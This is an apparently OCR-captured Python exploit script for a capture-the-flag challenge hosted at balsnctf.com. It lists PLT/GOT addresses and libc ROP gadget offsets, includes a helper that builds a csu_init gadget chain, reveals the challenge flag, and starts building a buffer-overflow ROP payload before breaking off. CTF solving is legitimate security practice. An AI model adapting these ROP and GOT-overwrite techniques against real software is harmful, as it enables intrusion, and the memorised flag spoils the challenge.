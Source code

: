 ```python
setbuf_plt = 0x401130
put_plt = 0x401110
puts_got = 0x404030
read_plt = 0x401160
read_got = 0x404058
pop_rbx_rbp_r12_r13_r14_r15_ret = 0x40156a
csu_init_2 = 0x401550
csu_init_1 = 0x40156A
status = 0x40408C + 1
pop_rbp_ret = 0x40125d
fork_got = 0x404068
fork_plt = 0x401180
exit_plt = 0x4010f0
put_got = 0x404030
secinit_got = 0x404018
secinit_plt = 0x4010e0
secadd_got = 0x404028
secadd_plt = 0x401100

def add_val(addr, val):
    payload = p64(pop_rbx_rbp_r12_r13_r14_r15_ret) + p64(val) + p64(addr + 0x3d) + b''.join([p64(i) for i in range(15-12+1)]) 
    payload += p64(add_prbp_ebx_ret)
    return payload

# offset

#pop_rdi_ret + status+1
g1 = 0xffffb3f4 #0x00000000000e1464 : mov eax, dword ptr [rdi] ; ret
#(write_got,0)
g2 = 0xfff498c7 #0x000000000002ad2b : xchg eax, edi ; ret 
g3 = 0x00c365 # isprint
#pop_rdi_ret + write_got
final = 0x0e5c4f #0x000000000011ccdf : mov rdi, qword ptr [rbp] ; call rbx ; mov    eax,DWORD PTR [rbx+0x4]

gg1 = 0x089c30 # write put offset
ggg1 = 0xfff2fb7d # je 0x124300 ...
gggg1 = 0xfff6da16 #0x0000000000162866 : pop rdx ; pop rbx ; ret

#0x00000000000e1464 : mov eax, dword ptr [rdi] ; ret
#0x00000000000abae8 : add rax, rdi ; ret
#0x000000000015433a : xor byte ptr [rsi], al ; add byte ptr [rax - 0x77], cl ; ret
#0x00000000000a4778 : je 0xa477e ; xor byte ptr [rdx + 0xe], 0x2a ; ret
#0x0000000000130008 : je 0x13001e ; pop rbx ; xor eax, eax ; pop r12 ; pop rbp ; ret
#0x0000000000046a2b : add edi, esi ; ret 0
#0x00000000000aa23d : xchg eax, esi ; ret
#0x000000000002ad2b : xchg eax, edi ; ret 
#0x0000000000197df8 : xchg eax, edx ; ret
#0x0000000000162866 : pop rdx ; pop rbx ; ret
#0x00000000001242fd : je 0x124300 ; ret
# mov    rax,QWORD PTR [rdi]
# mov    QWORD PTR [rdx],rax
# mov eax, 0x1 ; ret
# isprint

flag = b'BALSN{m4yb3_ORE_w1ll_b3_7h3_n3w_tr3nd???}'
for i in range(len(flag), 41):
    r = remote('orxw.balsnctf.com', 19091)
    ######## ROP ########
    payload = b'A'*0x18 # dummy

    #### write put@got to write ####
```